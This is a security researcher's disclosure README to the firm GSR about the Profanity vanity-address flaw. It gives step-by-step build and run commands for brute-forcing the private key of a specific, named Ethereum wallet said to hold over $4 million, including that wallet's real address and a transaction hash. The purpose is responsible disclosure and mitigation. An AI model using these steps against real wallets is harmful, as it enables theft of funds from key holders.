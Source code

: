 
## Disclosure

Hi all, I'm Nate, a security researcher and a master's student in Cyber Security and Forensics.

I would like to disclose a critical vulnerability I found in one of your wallets at https://etherscan.io/address/0x8811bfb8bb23a64f7dfa0a545654ab942dc4ad30, which holds assets worth more than $4 million at this time of writing. I have created this private repository with the required code dependencies specifically for demonstration with the company GSR to provide a proof of concept for the vulnerability I am disclosing.


## Brief Introduction

Profanity is specialized software for generating Ethereum vanity addresses. It harnesses GPU capabilities using OpenCL to efficiently perform this task. The process begins by generating a random private key, then computes the corresponding public key, and ultimately derives the Ethereum address from it. This method benefits from the parallel processing capabilities of GPUs, enhancing the speed and efficiency of creating customized Ethereum addresses.

However, the issue with Profanity is that it uses a random 32-bit vector to seed 256-bit private keys, making it possible to brute-force private keys for wallets generated using this tool.

Read more about the exploit in [this blog post](https://medium.com/amber-group/exploiting-the-profanity-flaw-e986576de7ab#:~:text=Profanity%20is%20an%20Ethereum%20vanity,then%20derives%20the%20Ethereum%20address.).

# Profanity Brute-force
This tool is designed to exploit a vulnerability in the method used for generating certain vanity Ethereum addresses. It aims to reconstruct the private keys of wallets created through interfaces that utilised the Profanity tool. This vulnerability arises from specific flaws in Profanity's address generation process.

## How I Discovered This Wallet Is Affected

I reported an approval exploit in one of GSR's wallets nearly two months ago, where one of the wallets had inadvertently granted a vulnerable contract unlimited allowance to spend its holdings. I reviewed all the addresses they had [labeled on Spotonchain](https://platform.spotonchain.ai/en/entity/807) and noticed the padding style of [this particular address](https://etherscan.io/address/0x8811bfb8bb23a64f7dfa0a545654ab942dc4ad30).

I noticed the repetition of numbers and characters in the address, which led me to suspect it might have been generated using a vanity address creation interface. Prompted by this, I began examining various case studies of previously exploited vanity addresses. My goal was to replicate the methods used in those instances to achieve a similar outcome with this address.

I started the brute-force process on the address "0x8811BfB8BB23a64f7dFa0a545654Ab942dc4AD30" to uncover its corresponding private key, following these steps:

I used my MacBook M2 Pro with 16 GB of RAM.


### 1. Build the project
    
    $ git clone https://github.com/0xmstore/GSR
    $ cd GSR
    $ make


### 2. Compute public keys
Run the following command to precompute all seed public keys into `cache` directory.

    $ mkdir cache
    $ ./profanity.x64 -h 

### 3. Find any signed transaction

You need to have a signed transaction in order to reconstruct a public key. You can find it using [Etherscan](https://etherscan.io/).

Let's use the most recent transaction with the hash `0xaf054276bde22dbd41d05214053f24993866d2d2aab5677dcaef490788a01627` and click on `Get Raw Tx Hex` to obtain the raw transaction.

<img width="971" alt="screengrab" src="https://github.com/0xmstore/GSR/assets/99334291/65424c25-e42d-4fd4-b20b-2f75a79e3363">
 

Raw Tx Hex: `0x02f8b10109843b9aca008501ee8cd8b58301189c946e2a43be0b1d33b726f0ca3b8de60b3482b8b05080b844a9059cbb000000000000000000000000a722549ae344d5bf4333aa092c389928f286ce2b000000000000000000000000000000000000000000001fc3842bd1f071c00000c080a08ec7259af0cef057e4fdc04fa15a81ac00a39f5d0c890ed9e2db5ecf77e08fdea03f95de3f8c93bd0112852f9fa50a101853e9c1c7dbecde08d746ebcf2fba74d2`

### 4. Reconsutruct the public key

To obtain the public key from the raw transaction, utilize the `pubkey.py` script.

    $ pip install -r requirements.txt
    $ python pubkey.py -t 0x02f87201048459682f0085013d2a27d082520894000000000d1c18a47a23c5826b2567c864a7d414880328ddd5c0dafd7880c001a0c7065b5d54ebcfb3a4325bbd80e0a352500784e2b12cfee614f8ab179ef9cd479fd78e0651f4f408db5420c785204b704ac14de95b18efb913036d9845906da2

### 5. Run search

Once you have successfully recover the publickey, the next step is to run the search using the command line below

    $ ./profanity.x64 --reverse --steps 200000 --cache --target publickey

### 6. Results

This search took approximately 21 days of intermittent running of the script to be able to generate the private key  due to my MacBook M2 Pro's GPU power limitations. Successfully generating a private key signals a vulnerability. **However, if it fails to do so, it does not necessarily indicate that the wallet is safe!** You can try running step 5 with additional steps.


## Mitigation

To mitigate this issue, it's recommended to remove this wallet from your list of proprietary operational wallets. Given that anyone with sufficient resources and expertise could potentially brute-force the private key, there's a risk of unauthorised access to the funds held in this wallet.

Please let me know if any part needs further explanation or clarification.

Sincerely,
Nate
